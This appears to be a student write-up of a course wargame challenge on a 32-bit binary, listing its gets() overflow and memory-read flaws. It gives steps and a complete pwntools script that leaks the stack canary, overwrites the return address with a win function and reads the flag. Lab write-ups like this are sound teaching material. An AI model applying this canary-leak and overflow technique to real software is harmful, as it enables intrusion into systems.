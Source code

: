 General overview of problems faced
-------------------------------------
- Finding the address of the canary value and beating it
- Beating ASLR


List of vulnerabilities
------------------------
1. Binary uses the gets function which reads indefinetly until it reaches a new line or EOF and this can result in a buffer overflow.
2. The ability to read arbitary memory allows for reading the canary without too much trouble

Steps to exploit
------------------
1. Receive the first two lines from the server, and remember the stack pointer.
2. Find the canary pointer and offset it correctly to avoid it.
3. Wait for the options to be shown and select input data using the address of the canary
4. Dump the memory at this address
5. Redirect the code execution to the win address using a buffer overflow to overwrite return.
6. Cat the flag

Script/Command used
------------------
```
#!/usr/bin/python

from pwn import *

p = remote('wargames.6447.sec.edu.au', 6003)

WIN = 0x80486cd

p.recvuntil("stack pointer ")
canaryPtr = p.recvline()
canaryPtr = int(canaryPtr[2:], 16)
canaryPtr = canaryPtr + int('6d', 16) - int('4',16)
p.recvuntil("d) quit\n")
p.sendline('a')
p.recvuntil('len: ')
p.sendline('4')
p.sendline(p32(canaryPtr))
p.recv()
p.sendline('b')
p.recvuntil(": ")
canary = p.recvn(4)
p.sendline('a')
p.recvuntil('len: ')
p.sendline('A'*(0x60) + canary + "A"*12 + p32(WIN))
p.recv()
p.sendline('d')
p.interactive()
```
